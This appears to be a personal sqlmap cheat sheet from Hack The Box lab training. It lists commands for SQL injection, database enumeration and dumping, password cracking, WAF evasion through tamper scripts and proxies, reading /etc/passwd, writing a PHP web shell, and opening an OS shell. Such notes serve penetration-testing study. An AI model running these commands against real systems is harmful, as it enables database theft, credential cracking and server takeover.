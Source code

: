 [[sql]]
#####  Copy request as curl and paste to terminal

```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

replace curl with sqlmap or save request to file: 
```shell-session
la1n23@htb[/htb]$ sqlmap -r req.txt
```

##### Scan using parameters in cookies:
```
sqlmap -u 'http://94.237.50.99:43765/case3.php'  -H 'Cookie: id=*' --dump --batch
```

#### Tuning

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

prefix and suffix for the query below

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

```
--batch --dump show response of queries

-T flag5 - specify table

--level 1 (1-5)

--risk 1 (1-3)

--code 200 match http code

--titles <title> match page title

--string=success match response string

--text-only strip all tags, keep only text of response

--technique=BEU - SQLi types (boolean, union, etc.)

specify number of colons for union based technique:

--union-cols=5
```

#### Enumeration
* `--banner`
* `--current-user`
* `--is-dba`
* `--tables`
* `-D dbname`
* `-C col1, col`
* `--where="name LIKE 'f%'"`
* `--dump-all --exclude-sysdbs` - enumerate all DBs
* `--schema`
* `--search -T table -C col1` -- search for table which contains word table
* `--passwords` - try to crack passwords

##### CSRF bypass
```shell
la1n23@htb[/htb]$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

##### Random value
```shell
la1n23@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

##### Parameters processing
```shell
la1n23@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

##### Proxy
`proxy="socks4://177.39.187.70:33283`
`--check-tor`
##### WAF
[[WAF]]
Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall). There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a `406 - Not Acceptable` response after such a request.
Detect WAF by signature: https://github.com/stamparm/identYwaf

##### Useragent

```
--random-agent
```

##### Tamper Scripts
Modyfing queries to bypass WAF.

`--tamper=between,randomcase`
`--list-tampers`

##### HTTP paramater pollution (HPP)
[[HPP]]
```
id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...
```

##### Files
```shell-session
--file-read "/etc/passwd"
```

```shell-session
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

#### Upload shell
```shell
--os-shell
```

